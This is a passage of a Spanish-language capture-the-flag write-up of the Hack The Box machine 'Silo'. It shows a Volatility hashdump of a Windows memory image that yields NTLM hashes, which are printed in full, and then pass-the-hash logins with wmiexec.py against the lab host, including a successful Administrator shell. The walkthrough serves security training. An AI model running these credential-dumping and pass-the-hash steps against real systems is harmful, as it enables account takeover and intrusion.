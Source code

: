 * `-y`: Tiene la direccion **virtual** del registro **SYSTEM**.
* `-s`: Tiene la direccion **virtual** del registro **SAM**.

```bash
❭ volatility -f SILO-20180105-221806.dmp --profile=Win2012R2x64 -y 0xffffc00000028000 -s 0xffffc00000619000 hashdump
Volatility Foundation Volatility Framework 2.6

Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
```

Oko, tenemos hashes, ahora la parte más fácil

Podemos usar vaaaaaarias herramientas y hacer **PassTheHash** (e incluso intentar crackear los hashes, pero ya hemos visto en otros writeups como hacerlo, juguemos con los hashes), usaremos 2 opciones, `wmiexec` y `crackmapexec`:

#### PassTheHash - wmiexec

* [Youtube - S4vitar nos guia con el uso de **winexec**](https://www.youtube.com/watch?v=0rmG5EneRuQ&t=5779s).

Entonces, sencillamente tomamos la última parte del hash y escribimos:

```bash
❭ wmiexec.py -hashes :9e730375b7cbcebf74ae46481e07b0c7 Administrator@10.10.10.82
```

Esperamos un momento yy:

![131bash_passhash_winexec_admin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131bash_passhash_winexec_admin.png)

Perfectamente correcto e.e Ya estaríamos dentro como el usuario administrador y jugar con el sistema. Pero validemos si **Phineas** también nos permite entrar:

```bash
❭ wmiexec.py -hashes :8eacdd67b77749e65d3b3d5c110b0969 Phineas@10.10.10.82
Impacket v0.9.22.dev1+20200909.150738.15f3df26 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[-] rpc_s_access_denied
```
